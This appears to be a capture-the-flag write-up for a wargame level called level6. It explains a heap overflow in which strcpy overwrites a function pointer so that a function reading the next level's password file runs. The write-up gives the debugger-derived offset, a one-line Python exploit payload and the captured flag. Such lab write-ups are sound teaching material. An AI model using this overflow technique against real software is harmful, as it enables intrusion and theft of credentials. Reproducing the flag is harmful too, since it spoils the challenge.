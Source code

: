 # level6

The executable does the following :

- `malloc(60)` into `var_one`
- `malloc(4)` into `var_two`
- Assign `m` to `var_two`
- `strcpy` `argv[1]` to `var_one`
- Run `var_two`

It's simple : we'll need to replace `var_two`'s value, `m`, with `n`, a function which runs `system("/bin/cat /home/user/level7/.pass");`, so it runs instead.

To do this, we'll exploit the `strcpy`, on the heap this time.

## The value

Cutter reveals the address of `n`, our spoofed value : `0x08048454`.

Formatted, this is `\x54\x84\x04\x08`.

## The addresses

By running the executable in `gdb`, breaking after the `malloc`s and running `p/x $eax`, we get the addresses :

- `var_one` is at `0x804a008`
- `var_two` is at `0x804a050`

`0x50 - 0x08 = 0x48 = 72`, so we'll need to write 72 characters after the beginning of `var_one`

## The exploit

We can do this fairly simply ; any buffer of `76+` characters will force `strcpy` to overwrite `var_two`. We run :

```
./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
```

## The flag

It works ! We get the `level6` flag :

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```